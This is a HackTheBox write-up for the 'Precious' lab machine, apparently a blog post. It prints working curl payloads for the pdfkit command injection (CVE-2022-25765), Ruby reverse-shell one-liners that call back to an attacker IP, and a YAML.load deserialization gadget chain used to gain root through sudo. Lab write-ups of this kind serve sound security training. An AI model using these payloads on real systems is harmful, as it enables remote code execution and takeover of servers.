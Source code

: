 ```yaml
---
layout: post
title: Precious
date: 2025-02-9 14:03 +0100
author: lone
description: Precious Easy Linux machine
lqip: /assets/img/precious/precious.webp
category: HackTheBox
tags: htb box writeup
published: true
sitemap: false
---
```


## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```
{: .nolineno }
![Nmap Scan TCP](/assets/img/precious/scantcp.png){: .shadow }

> PORT    STATE  SERVICE
> 22/tcp  open   ssh
> 80/tcp  open   http

```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```
{: .nolineno }
Let's take a look at the website.

![Precious Website](/assets/img/precious/website.png){: .shadow }

It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

`http://10.10.XX.XX:80/?name=%20``whoami```

We URL Encode it before sending it
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```
{: .nolineno }
And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```
{: .nolineno }
Time to craft ourselves a reverse shell ! 
Let's setup a listenner :
```bash
pwncat-cs -p 1234
```
{: .nolineno }
```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```
{: .nolineno }
We replace whoami by this new payload
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```
{: .nolineno }
![Reverse Shell](/assets/img/precious/reverseshell.png){: .shadow }

There is a .bundle in the home directory of our user ruby. Let's investigate :

![Ruby Conf file](/assets/img/precious/rubypivottohenry.png){: .shadow }

Clear text password for the user henry ! And with this we got our first flag :

![First Flag](/assets/img/precious/henryflag.png){: .shadow }

## Privilege escalation

```bash
sudo -l

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

So let's see what does the script do

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
{: file="/opt/update_dependencies.rb " }


Seems we have a control on dependencies.yml that is load via YAML.load(). We find a [blogpost](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) about ruby deserialization via YAML.

Let's take and modify a bit the payload :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))' #modify the command here
         method_id: :resolve
```
{: file="/tmp/dependencies.yml " }
Prepare your listenner then use our sudo privilege to run the ruby script in the folder where our payload is.

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
{: .nolineno }
You should catch a root shell and find the root flag !

![Root Flag](../assets/img/precious/rootflag.png){: .shadow }

## TL;DR 
> Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.
{: .prompt-info }
